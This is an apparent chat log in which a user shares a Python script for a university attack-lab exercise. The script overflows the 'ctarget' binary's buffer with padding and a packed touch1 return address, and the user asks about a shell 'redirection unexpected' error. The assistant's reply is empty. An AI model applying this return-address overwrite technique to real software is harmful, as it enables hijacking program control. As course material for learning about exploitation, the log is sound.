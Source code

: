 * * *

**You:**

re_level1.py:
import subprocess
import struct

buffer_size = 0x18  # Replace with the actual buffer size
touch1_addr = 0x40195d  # Replace with the actual touch1 address

print("1\n")

# Calculate the input length and create the exploit string
input_length = buffer_size + 8  # Assuming 8 bytes for the extra space

print("input_length:",input_length,"\n")

exploit_str = b'A' * input_length
exploit_str += struct.pack('&lt;Q', touch1_addr)

print("exploit_str:",exploit_str,"\n")

# Print the exploit string
print(f'Exploit string: {exploit_str.hex()}')

# Run the ctarget program with the exploit string as input
cmd = f'./ctarget &lt;&lt;&lt; {exploit_str.hex()}'
process = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, universal_newlines=True)

# Print the output of the ctarget program
print('Output:')
print(process.stdout)
print('Error:')
print(process.stderr)

after running,the output:
1

input_length: 32 

exploit_str: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA]\x19@\x00\x00\x00\x00\x00' 

Exploit string: 41414141414141414141414141414141414141414141414141414141414141415d19400000000000
Output:

Error:
/bin/sh: 1: Syntax error: redirection unexpected

* * *

**ChatGPT:**
